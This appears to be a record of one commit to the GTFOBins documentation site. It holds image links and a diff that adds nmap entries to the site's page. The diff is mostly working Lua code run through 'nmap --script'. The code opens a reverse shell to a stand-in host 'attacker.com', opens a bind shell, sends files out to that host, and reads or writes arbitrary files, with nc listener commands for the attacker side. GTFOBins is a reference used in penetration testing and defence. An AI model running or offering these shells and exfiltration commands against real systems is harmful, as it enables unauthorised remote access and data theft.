

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add reverse and bind shell and file transfer functions to nmap

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -5,6 +5,76 @@ functions:
       code: |
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
+        nmap --script=$TF
+  reverse-shell-non-interactive:
+    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        TF=$(mktemp)
+        echo 'local s=require("socket");
+          local t=assert(s.tcp());
+          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          while true do
+            local r,x=t:receive();local f=assert(io.popen(r,"r"));
+            local b=assert(f:read("*a"));t:send(b);
+          end;
+          f:close();t:close();' > $TF
+        nmap --script=$TF
+  bind-shell-non-interactive:
+    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
+      code: |
+        export LPORT=12345
+        TF=$(mktemp)
+        echo 'local k=require("socket");
+          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local c=s:accept();
+          while true do
+            local r,x=c:receive();local f=assert(io.popen(r,"r"));
+            local b=assert(f:read("*a"));c:send(b);
+          end;c:close();f:close();' > $TF
+        nmap --script=$TF
+  upload:
+    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export LFILE=file_to_send
+        TF=$(mktemp)
+        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
+          local d=f:read("*a")
+          io.close(f);
+          local s=require("socket");
+          local t=assert(s.tcp());
+          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:send(d);
+          t:close();' > $TF
+        nmap --script=$TF
+  download:
+    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
+        < "file_to_send"` on the attacker box to send the file.
+      code: |
+        export LPORT=12345
+        export LFILE=file_to_save
+        TF=$(mktemp)
+        echo 'local k=require("socket");
+          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local c=s:accept();
+          local d,x=c:receive("*a");
+          c:close();
+          local f=io.open(os.getenv("LFILE"), "wb");
+          f:write(d);
+          io.close(f);' > $TF
+        nmap --script=$TF
+  file-write:
+    - code: |
+        TF=$(mktemp)
+        echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
+        nmap --script=$TF
+  file-read:
+    - code: |
+        TF=$(mktemp)
+        echo 'lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
         nmap --script=$TF
   sudo-enabled:
     - description: Input echo is disabled.
```
